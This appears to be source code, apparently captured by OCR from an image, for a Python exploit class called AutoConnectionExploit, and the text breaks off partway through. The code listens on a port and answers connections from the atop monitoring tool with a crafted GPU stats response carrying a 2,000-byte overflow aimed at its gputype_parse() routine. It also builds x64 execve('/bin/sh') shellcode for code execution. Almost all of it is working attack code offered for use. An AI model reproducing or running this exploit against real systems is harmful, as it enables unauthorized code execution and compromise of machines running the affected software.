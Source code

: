 import socket
import threading
import time
import sys
import struct

class AutoConnectionExploit:
    def __init__(self, listen_port=4321, target_host="127.0.0.1"):
        self.listen_port = listen_port
        self.target_host = target_host
        self.server_socket = None
        self.client_connections = []
        self.running = False
        
    def create_malicious_gpu_response(self):
        """
        Create malicious GPU response to send when ATOP connects
        This will trigger the heap buffer overflow exploit
        """
        # Craft response that will be parsed by gputype_parse()
        gpu_data = {
            'gpu_count': '1',
            'gpu_type': 'NVIDIA_MALICIOUS',
            'utilization': '100',
            'memory_util': '75',
            'temperature': '65',
            'power': '150'
        }
        
        # Add overflow payload
        overflow_data = "A" * 2000  # Large overflow to trigger heap corruption
        
        # Construct malicious response
        response = f"GPU_STATS:{gpu_data['gpu_count']}:{gpu_data['gpu_type']}:{overflow_data}\n"
        
        return response.encode('utf-8')
    
    def create_shellcode_payload(self):
        """
        Create shellcode payload for code execution
        """
        # x64 execve("/bin/sh") shellcode
        shellcode = (
            b"\x48\x31\xf6"                    # xor rsi, rsi
            b"\x56"                            # push rsi
            b"\x48\xbf\x2f\x62\x69\x6e\x2f\x73\x68\x00"  # mov rdi, '/bin/sh\x00'
            b"\x57"                            # push rdi
            b"\x54"                            # push rsp
            b"\x5f"                            # pop rdi
            b"\x6a\x3b"                        # push 0x3b
            b"\x58"                            # pop rax
            b"\x99"                            # cdq
            b"\x0f\x05"                        # syscall
        )
        